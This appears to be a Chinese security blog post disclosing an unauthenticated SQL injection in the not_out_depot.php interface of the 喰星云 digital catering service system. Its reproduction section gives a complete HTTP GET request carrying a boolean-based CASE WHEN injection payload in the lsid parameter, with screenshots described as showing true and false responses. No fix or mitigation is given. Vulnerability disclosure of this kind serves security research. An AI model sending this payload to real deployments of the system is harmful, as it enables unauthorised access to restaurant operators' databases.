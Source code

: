 #  喰星云-数字化餐饮服务系统not_out_depot.php存在SQL注入漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
## 1. 漏洞描述  
  
	  
喰星云-数字化餐饮服务系统 not_out_depot.php接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk1JGkIqBeC8Bibx7BAEvWicFLp20FkUibUIVM2wF87jusNWf5svnYiaDg8g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /logistics/home_warning/php/not_out_depot.php?do=getList&lsid=(SELECT+(CASE+WHEN+(6193=6193)+THEN+''+ELSE+(SELECT+9641+UNION+SELECT+2384)+END)) HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate


```  
  
    报错注入，当条件WHEN+(6192=6193)不符合时，返回空内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkKYYNzwZKQxicXzr15nb0qvl9QmsqFKV9tt1XGq0Pmkvsnb8r50ict4yg/640?wx_fmt=png&from=appmsg "")  
  
    报错注入，当条件WHEN+(6193=6193)符合时，返回查询数据：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkdyE1j3vYhJwZg1OPLVfVibnUOg6Z6TD1xyx0bO53Npo4SgxmiaP8gHHg/640?wx_fmt=png&from=appmsg "")  
  
  
